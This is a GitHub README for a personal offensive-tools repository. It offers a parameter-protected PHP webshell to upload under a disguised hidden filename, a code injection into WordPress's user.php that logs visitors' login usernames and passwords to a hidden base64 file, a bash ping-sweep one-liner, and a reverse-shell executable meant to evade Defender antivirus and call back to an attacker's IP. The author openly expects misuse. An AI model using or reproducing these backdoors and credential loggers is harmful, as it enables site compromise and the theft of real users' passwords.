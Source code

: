 # JustRepository

Testing project

## Getting Started

These are some repository tools and code I made for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login. Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### ping.sh
Simpe ping with bash. or you can use this simple script through command line with this:
```
time for i in {1..254}; do (ping -c 1 172.19.0.$i | grep "bytes from" | cut -d':' -f1 | cut -d' ' -f4 &); done
```
### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited shell or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
